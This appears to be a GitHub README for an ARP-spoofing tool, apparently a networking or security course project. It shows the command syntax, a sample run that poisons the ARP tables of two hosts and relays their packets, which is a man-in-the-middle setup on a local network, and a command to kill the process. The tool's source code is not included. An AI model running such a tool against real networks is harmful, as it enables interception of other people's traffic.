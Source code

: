 # arp-spoofing
- arp-spoofing

### Example
```
syntax : arp-spoof <interface> <sender ip 1> <target ip 1> [<sender ip 2> <target ip 2>...]
sample : arp-spoof en0 192.168.10.2 192.168.10.1 192.168.10.1 192.168.10.2
```
```bash
% sudo ./arp-spoof en0 ***.**.1.9 ***.**.1.254 ***.**.1.50 ***.**.1.254
[+] attacker ip addr: ***.**.1.57
[+] attacker mac addr: **:**:**:50:8e:00
[1] sender ip addr: ***.**.1.9
[2] sender ip addr: ***.**.1.50
[1] sender mac addr: **:**:**:39:42:ec
[1] target ip addr: ***.**.1.254
[1] target mac addr: **:**:**:b9:85:30
[1] Prevent Infection from ARP Recover
Infect the ARP Table
[2] sender mac addr: **:**:**:b3:e7:e9
[2] target ip addr: ***.**.1.254
[1] Relay Packet: 75 bytes
[1] Relay Packet: 75 bytes
[1] Relay Packet: 72 bytes
[2] target mac addr: **:**:**:b9:85:30
[2] Relay Packet: 54 bytes
Infect the ARP Table
```

```bash
$ sudo killall -9 arp-spoof
```



### Results

<img width="305" src="https://user-images.githubusercontent.com/64528476/96743223-bab55900-13fe-11eb-8140-53b842144ca0.png">



### Some problem

- This is infinite loop process so you should kill the process by command.

